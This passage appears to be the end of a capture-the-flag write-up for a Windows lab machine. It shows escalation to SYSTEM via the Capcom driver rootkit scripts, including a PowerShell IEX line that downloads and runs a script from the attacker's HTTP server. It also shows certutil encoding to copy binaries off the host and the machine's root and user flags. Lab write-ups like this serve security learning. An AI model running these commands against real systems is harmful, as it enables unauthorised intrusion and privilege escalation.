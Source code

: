 Now to the excalation privilige  we need to exploit a capcom drive (https://github.com/FuzzySecurity/Capcom-Rootkit)

``` bash
git clone https://github.com/FuzzySecurity/Capcom-Rootkit
cd Capcom-Rootkit
for file in $(find . -name \*.ps1); do cat $file; echo; done > ../capcom.ps1
sudo python -m http.server 80

# On the victim machine
PS C:\> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/capcom.ps1')
PS C:\> Capcom-ElevatePID
PS C:\> whoami
nt authority\system
```

Now I'am nt authority\system, to read the root.txt (flag) I need to crack a binary,  I download it to my machine 
``` bash
PS C:\Users\Administrator\Desktop> certutil.exe -encode root.exe root.exe.b64
PS C:\Users\Administrator\Desktop> type root.exe.b64 -> copy the content

PS C:\Users\Administrator\Desktop> certutil.exe -encode checkdll.dll checkdll.dll.b64
PS C:\Users\Administrator\Desktop> type checkdll.dll.b64

# On my machine
❯ cat root | tr -d '\n' | base64 -d | sponge root.exe
❯ cat checkdll.dll | tr -d '\n' | base64 -d | sponge checkdll.dll

```

now after analizyng these binaries,  I use cyberchef application to decode the password that is in xor cipher

``` bash
PS C:\Users\Administrator\Desktop> .\root.exe OdioLaFeta
d801c1e9bd9a02f8fb30d8bd3be314c1

```

And finally I solve this machine!


root flag > d801c1e9bd9a02f8fb30d8bd3be314c1
user flag > bb6163c184f203af2a31a9c035934297